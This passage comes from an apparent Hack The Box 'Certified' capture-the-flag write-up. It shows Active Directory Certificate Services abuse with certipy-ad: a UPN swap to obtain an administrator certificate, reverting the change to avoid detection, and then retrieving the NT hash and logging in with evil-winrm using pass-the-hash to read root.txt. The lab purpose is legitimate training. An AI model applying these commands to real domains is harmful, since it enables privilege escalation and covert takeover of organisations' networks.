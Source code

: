 Restores `ca_operator`'s UPN to avoid detection while still possessing `administrator.pfx` for further attacks.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb 

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

So basically we are doing this


1️ **Modify ca_operator UPN to administrator**  
   - Updates `ca_operator`'s User Principal Name (UPN) to `administrator`, enabling certificate-based authentication as `administrator`.

2️ **Request a Certificate for administrator (Abusing AD CS)**  
   - Requests a certificate using the `CertifiedAuthentication` template, successfully obtaining a `.pfx` file for `administrator`.

3️ **Revert ca_operator UPN to its original state**  
   - Restores `ca_operator`'s UPN to avoid detection while still possessing `administrator.pfx` for further attacks.

Now, we use `certipy-ad` to authenticate to Active Directory using the obtained certificate.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:************1751f708748f67e2d34                                                                                      
```
login with the administrator hash and we have a flag.txt.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ evil-winrm -i 10.10.11.41 -u administrator -H ************e1751f708748f67e2d34

                                        
Evil-WinRM shell v3.7                                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
************f71c4d1f5b198c4db6a4

```
